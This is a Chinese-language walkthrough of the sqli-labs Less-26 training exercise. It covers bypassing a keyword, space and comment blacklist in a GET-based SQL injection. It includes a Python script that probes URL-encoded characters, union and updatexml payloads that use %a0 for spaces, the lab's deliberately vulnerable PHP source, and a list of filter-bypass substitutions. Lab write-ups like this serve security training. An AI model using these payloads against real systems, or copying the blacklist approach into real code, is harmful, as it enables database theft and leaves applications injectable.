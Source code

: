 # Less-26 **GET Trick with comments**
TAG：GET型注入、空格与注释符过滤  
## 漏洞利用  
根据less页面提示，此less过滤掉了空格和注释符    
![less26_1](images\less26_1.png)  
  
经过实际测试，过滤的还有负号 ```-``` ,这个负号其实是单行注释 ```--``` 的一部分,被当作注释符过滤了  
![less26_2](images\less26_2.png)  
  
经测试，```or```被过滤  
![less26_3](images\less26_3.png)  
  
经测试，```and```被过滤  
![less26_4](images\less26_4.png)  
  
经测试，```\```与```/```被过滤  
![less26_5](images\less26_5.png)  
  
此时考虑使用URI编码进行绕过，使用python脚本测试可以使用的编码  
```
import requests

def changeToHex(num):
    tmp = hex(i).replace("0x", "")
    if len(tmp)<2:
        tmp = '0' + tmp
    return "%" + tmp

req = requests.session()
for i in xrange(0,256):
    i = changeToHex(i) 
    url = "http://192.168.232.154/sqli-labs/Less-26/?id=1'" + i + "%26%26" + i + "'1'='1"
    ret = req.get(url)
    if 'Dumb' in ret.content:
        print "good,this can use:" + i
```
  
获取测试结果  
![less26_6](images\less26_6.png)  
  
可以使用uri编码进行过滤的绕过，但在window系统下的apache存在编码问题，需要将实验网站环境运行在linux系统下   
> URI编码手册：https://www.w3school.com.cn/tags/html_ref_urlencode.html   

Payload:```?id=0'%a0union%a0select%a02,database(),4%a0||%a0'1'='1```
![less26_7](images\less26_7.png)  
  
也可以使用报错注入完成此less  
Payload:```?id=0'||updatexml(1,concat('$',(database())),0)||'1'='1```
![less26_8](images\less26_8.png)  

## 源码分析  
### less26源码：  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-26 Trick with comments</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:40px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");

// take the variables 
if(isset($_GET['id']))
{
	$id=$_GET['id'];
	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'ID:'.$id."\n");
	fclose($fp);

	//fiddling with comments
	$id= blacklist($id);
	//echo "<br>";
	//echo $id;
	//echo "<br>";
	$hint=$id;

// connectivity 
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
	if($row)
	{
	  	echo "<font size='5' color= '#99FF00'>";	
	  	echo 'Your Login name:'. $row['username'];
	  	echo "<br>";
	  	echo 'Your Password:' .$row['password'];
	  	echo "</font>";
  	}
	else 
	{
		echo '<font color= "#FFFF00">';
		print_r(mysql_error());
		echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}




function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}



?>
</font> </div></br></br></br><center>
<img src="../images/Less-26.jpg" />
</br>
</br>
</br>
<img src="../images/Less-26-1.jpg" />
</br>
</br>
<font size='4' color= "#33FFFF">
<?php
echo "Hint: Your Input is Filtered with following result: ".$hint;
?>
</font> 
</center>
</body>
</html>
```  
   
### 漏洞点分析   
```
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
```
此less的  ```blacklist()```  函数使用了preg_replace()函数对```or```,```and```,```/*```,```--```,```#```,```\s```(空格),```\/```敏感字符串进行了正则过滤  
针对这些过滤存在很多绕过方法  
> 用```||```代替```or```   
> 用```&&```代替```and```   
> 用```;%00```代替注释符
> 用```%a0```代替空格符  

